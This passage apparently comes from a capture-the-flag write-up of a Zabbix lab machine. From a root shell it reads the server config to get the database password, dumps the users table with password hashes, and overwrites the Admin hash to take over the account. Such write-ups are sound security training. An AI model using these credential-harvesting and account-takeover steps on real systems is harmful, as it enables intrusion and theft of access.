 Super admins can make some common `misconfigurations` that give this group a way to do something nefarious from here.

Then let's use root shell to check the database credit
```
root@unrested:/var/lib/zabbix# cat /etc/zabbix/zabbix_server.conf | grep DB
### NOTE: Support for Oracle DB is deprecated since Zabbix 7.0 and will be removed in future versions.
### Option: DBHost
# DBHost=localhost
### Option: DBName
#       the tnsnames.ora file or set to empty string; also see the TWO_TASK environment variable if DBName is set to
# DBName=
DBName=zabbix
### Option: DBSchema
# DBSchema=
### Option: DBUser
# DBUser=
DBUser=zabbix
### Option: DBPassword
DBPassword=ZabberzPassword2024!
```
We can get the `zabbix:ZabberzPassword2024!`

Then we can get the user tables
```
MariaDB [zabbix]> select * from users;
+--------+----------+---------+---------------+--------------------------------------------------------------+-----+-----------+------------+---------+---------+---------+----------------+------------+---------------+---------------+----------+--------+-----------------+----------------+
| userid | username | name    | surname       | passwd                                                       | url | autologin | autologout | lang    | refresh | theme   | attempt_failed | attempt_ip | attempt_clock | rows_per_page | timezone | roleid | userdirectoryid | ts_provisioned |
+--------+----------+---------+---------------+--------------------------------------------------------------+-----+-----------+------------+---------+---------+---------+----------------+------------+---------------+---------------+----------+--------+-----------------+----------------+
|      1 | Admin    | Zabbix  | Administrator | $2y$10$L8UqvYPqu6d7c8NeChnxWe1.w6ycyBERr8UgeUYh.3AO7ps3zer2a |     |         1 | 0          | default | 30s     | default |              0 |            |             0 |            50 | default  |      3 |            NULL |              0 |
|      2 | guest    |         |               | $2y$10$89otZrRNmde97rIyzclecuk6LwKAsHN0BcvoOKGjbT.BwMBfm7G06 |     |         0 | 15m        | default | 30s     | default |              0 |            |             0 |            50 | default  |      4 |            NULL |              0 |
|      3 | matthew  | Matthew | Smith         | $2y$10$e2IsM6YkVvyLX43W5CVhxeA46ChWOUNRzSdIyVzKhRTK00eGq4SwS |     |         1 | 0          | default | 30s     | default |              0 |            |             0 |            50 | default  |      1 |            NULL |              0 |
+--------+----------+---------+---------------+--------------------------------------------------------------+-----+-----------+------------+---------+---------+---------+----------------+------------+---------------+---------------+----------+--------+-----------------+----------------+

```

I’ll set the Admin user to have the same password as `matthew`:
```
MariaDB [zabbix]> update users set passwd = '$2y$10$e2IsM6YkVvyLX43W5CVhxeA46ChW
OUNRzSdIyVzKhRTK00eGq4SwS' where userid = 1;
Query OK, 1 row affected (0.002 sec)
Rows matched: 1  Changed: 1  Warnings: 0
```

